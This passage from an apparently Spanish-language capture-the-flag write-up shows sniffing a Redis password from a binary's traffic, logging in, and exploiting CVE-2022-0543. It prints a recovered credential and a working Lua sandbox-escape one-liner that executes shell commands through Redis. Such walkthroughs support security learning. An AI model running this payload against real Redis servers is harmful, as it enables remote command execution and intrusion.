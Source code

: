 Podríamos analizar el binario con `ghidra` pero como este binario intenta entablar una conexión por detrás, podemos con `wireshark` capturar el tráfico e intentar ver si la contraseña viaja en texto claro.

Para que se tramite la autenticación, primero se comprueba que existe un servicio redis, por lo cual.

```shell
sudo apt install redis-server
```

Iniciamos el servidor

```shell
$ redis-server
```

Y capturamos con `wireshark` utilizando el siguiente filtro:
`tcp.port == 6379`

Y al ejecutar el binario..
![Write-up Image](images/Screenshot_13.png)

`F2WHqJUz2WEz=Gqq`

En la máquina víctima

Podemos comprobar que esta contraseña es válida.
```shell
dan_smith@shared:~$ redis-cli -h 127.0.0.1
127.0.0.1:6379> auth F2WHqJUz2WEz=Gqq
OK
127.0.0.1:6379>
```

Vemos que la versión de `redis-server` es la 6.0.15
```shell
127.0.0.1:6379> info server
# Server
redis_version:6.0.15
```

Tras investigar un rato, podemos encontrar un apartado en `vulhub` que contiene el CVE-2022-0543
https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.md

En este one-liner sucede la magia.
```perl
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```
